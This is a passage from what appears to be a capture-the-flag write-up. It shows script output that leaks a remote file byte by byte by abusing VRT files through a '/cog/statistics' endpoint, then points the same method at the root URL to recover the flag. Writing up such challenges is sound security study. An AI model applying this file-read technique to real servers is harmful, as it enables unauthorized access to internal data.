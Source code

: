 ```
   Offset 6: 60 ('<')
 Reading byte at offset 7...
   Offset 7: 104 ('h')
 Reading byte at offset 8...
   Offset 8: 101 ('e')
 Reading byte at offset 9...
   Offset 9: 97 ('a')
 Reading byte at offset 10...
   Offset 10: 100 ('d')
 Reading byte at offset 11...
   Offset 11: 62 ('>')
 Reading byte at offset 12...
   Offset 12: 60 ('<')
 Reading byte at offset 13...
   Offset 13: 47 ('/')
 Reading byte at offset 14...
   Offset 14: 104 ('h')
 Reading byte at offset 15...
   Offset 15: 101 ('e')
 Reading byte at offset 16...
   Offset 16: 97 ('a')
 Reading byte at offset 17...
   Offset 17: 100 ('d')
 Reading byte at offset 18...
   Offset 18: 62 ('>')
 Reading byte at offset 19...
   Offset 19: 60 ('<')
 Reading byte at offset 20...
   Offset 20: 98 ('b')
 Reading byte at offset 21...
   Offset 21: 111 ('o')
 Reading byte at offset 22...
   Offset 22: 100 ('d')
 Reading byte at offset 23...
   Offset 23: 121 ('y')
 Reading byte at offset 24...
   Offset 24: 62 ('>')
 Reading byte at offset 25...
   Offset 25: 60 ('<')
 Reading byte at offset 26...
   Offset 26: 47 ('/')
 Reading byte at offset 27...
   Offset 27: 98 ('b')
```

Having read the first 64 bytes of `http://[REDACTED]/METADATA.DIM` using the VRT byte-by-byte technique with `/cog/statistics`, all its left to do is to point the script to the flag:

```
Attempting to read from ROOT URL: http://[REDACTED]/ byte-by-byte using VRTs.
This is where the problem statement says the flag should be.
======================================================================
Progress: Reading byte 0...
  Offset 0: 60 ('<')
  Offset 2: 116 ('t')
  Offset 10: 102 ('f')
  Offset 14: 123 ('{')
  Offset 16: 100 ('d')
Progress: Reading byte 20...
  Offset 20: 48 ('0')
  Offset 24: 99 ('c')
  Offset 30: 54 ('6')
  Offset 31: 99 ('c')
  Offset 37: 102 ('f')
```